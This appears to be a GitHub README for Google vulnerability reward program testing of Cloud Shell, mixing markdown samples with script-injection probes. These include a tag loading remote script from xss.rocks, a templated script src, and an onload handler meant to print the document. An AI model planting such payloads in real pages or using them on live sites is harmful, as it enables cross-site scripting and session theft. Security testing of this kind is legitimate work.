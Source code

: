 # Google VRP testing  
Google cloudshell instance take over (as root)




[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)][1]

[1]: https://console.cloud.google.com/?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fgooglecloudplatform%2Fcloud-ops-sandbox&cloudshell_git_branch=0.9.4&cloudshell_tutorial=docs/walkthrough.md


---


<script async type="text/javascript" src="{{ js }}"></script>

<dl>
  <dt>Definition list</dt>
  <dd>Is something people use sometimes.</dd>
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

  <dt>Markdown in HTML</dt>
  <dd>Does *not* work **very** well. Use HTML <em>tags</em>.</dd>
</dl>

---

 





<details>
  <summary>Click me</summary>
  
  ### Heading
  1. Foo
  2. Bar
     * Baz
     * Qux

  ### Some Javascript
  ```js
  function logSomething(something) {
    console.log('Something', something);
  }
  ```
</details>


### Test

<script onload="{ setTimeout(function(){ altert(document) console.log(document) },5000) }"> 

 [![Open in Cloud Shell before](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=README.md)
